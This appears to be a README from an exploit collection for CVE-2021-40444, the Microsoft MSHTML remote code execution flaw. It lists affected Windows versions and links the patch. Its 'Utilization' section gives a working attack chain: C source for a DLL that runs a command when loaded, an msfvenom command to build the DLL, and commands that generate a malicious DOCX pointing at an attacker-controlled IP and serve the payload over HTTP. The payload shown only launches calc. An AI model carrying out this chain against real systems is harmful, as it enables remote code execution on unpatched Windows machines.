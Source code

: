 ### CVE-2021-40444

#### Describe

Microsoft MSHTML Remote Code Execution Vulnerability

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested   |
| ------------------- | ---------------- | ------- | ------ | -------- |
| Windows 10          | x86/x64          |         |        |          |
| Windows 10          | x86/x64          | 1607    |        |          |
| Windows 10          | x86/x64/ARM64    | 1809    |        |          |
| Windows 10          | x86/x64/ARM64    | 1909    |        |          |
| Windows 10          | x86/x64/ARM64    | 2004    |        | &#10004; |
| Windows 10          | x86/x64/ARM64    | 20H2    |        |          |
| Windows 10          | x86/x64/ARM64    | 21H1    |        |          |
| Windows 7           | x86/x64          |         | SP1    |          |
| Windows 8.1         | x86/x64          |         |        |          |
| Windows Rt 8.1      |                  |         |        |          |
| Windows Server 2008 | x86/x64          |         | SP2    |          |
| Windows Server 2008 | x64              | R2      | SP1    |          |
| Windows Server 2012 |                  |         |        |          |
| Windows Server 2012 |                  | R2      |        |          |
| Windows Server 2016 |                  |         |        |          |
| Windows Server 2019 |                  |         |        |          |
| Windows Server 2022 |                  |         |        |          |
| Windows Server      |                  | 2004    |        |          |
| Windows Server      |                  | 20H2    |        |          |



#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-40444
```

#### UtilizationPrinciple

Based on the previous use of samples`938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52`

You can know that it is to load ActiveX using the default browser (IE)

![image-20210911112944428](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_1.png)

Essentially maliciously uses only the `Document.xml.Rels` files in the sample, MHTML and X-USC, which can be used as the malicious target web page, you can achieve the utilization

#### Utilization

First, you need to generate a malicious DLL file, and compile themselves through MSF or yourself.

- Compile

  ```c
  //calc.c
  #include <windows.h>
  
  void exec(void) {
  	system("cmd /c calc");
  	return;
  }
  
  BOOL WINAPI DllMain(
      HINSTANCE hinstDLL,
      DWORD fdwReason, 
      LPVOID lpReserved )
  {
      switch( fdwReason ) 
      { 
          case DLL_PROCESS_ATTACH:
             exec(); 
             break;
  
          case DLL_THREAD_ATTACH:
              break;
  
          case DLL_THREAD_DETACH:
              break;
  
          case DLL_PROCESS_DETACH:
              break;
      }
      return TRUE;
  }
  ```

  Then run the command

  ```
  i686-w64-mingw32-gcc -shared calc.c -o calc.dll
  ```

- Compiled by MSF

  ```
  msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -f dll>>calc.dll
  ```

> It is best to use MSF to generate a DLL file!
>
> Also, please see the corresponding machine, some Windows 10 version does not exist.

The relying on the installation environment is required to generate a cab

Then use a one-touch script,`test/calc.dll`This is the absolute path you generated by you,`http://you_ip`You start the IP of the EXP this machine

```
cd CVE-2021-40444 ; python3 exploit.py generate test/calc.dll http://you_ip
```

![image-20210911115757383](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_2.png)

Then start the HTTP service

```
cd srv ; python3 -m http.server 80
```

The resulting malicious DOCX file (in the `out/` folder) is placed on the target machine (Windows 10 2004 x64), can perform success

![1](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_3.gif)

#### ProjectSource

- [prcabral](https://github.com/prcabral/CVE-2021-40444)